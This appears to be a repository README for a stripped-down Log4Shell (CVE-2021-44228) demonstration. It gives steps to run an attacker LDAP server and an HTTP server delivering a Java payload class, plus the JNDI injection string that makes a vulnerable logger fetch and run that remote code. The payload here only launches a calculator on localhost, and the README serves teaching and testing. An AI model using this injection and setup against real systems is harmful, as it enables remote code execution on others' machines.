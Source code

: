 # Log4Shell Demo Exploit

This is a minimal demo exploit for the Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)).
I created this to have a stripped-down demo that strictly focuses on the essentials instead of drowning in a bunch of Docker Compose/Node.js/Spring/Tomcat/... cruft.

This repository contains MIT-licenced code from https://github.com/mbechler/marshalsec.

## Prerequisites
* A UNIX shell
* Java
* Maven
* Python 3

## How to run

You need three console tabs: two for the attacker infrastructure and one for the victim.

### Attacker LDAP server
```sh
cd attacker/ldap
./ldapserver
```
This will open a JNDI LDAP server on port 1389.
The server will answer requests by referring the victim to the exploit payload served by the HTTP server.

### Attacker HTTP Server
```sh
cd attacker/http
./httpserver
```
This will compile the exploit payload and open an HTTP server on port 8888 that delivers the `Payload.class` file to would-be victims.

### Victim
```sh
cd victim
./victim
```
Now you can type in arbitrary lines of text and watch them being logged.
To trigger the vulnerability in Log4j, enter the following input:
```
${jndi:ldap://localhost:1389/a}
```
The exploit will trick the victim process into launching a calculator.
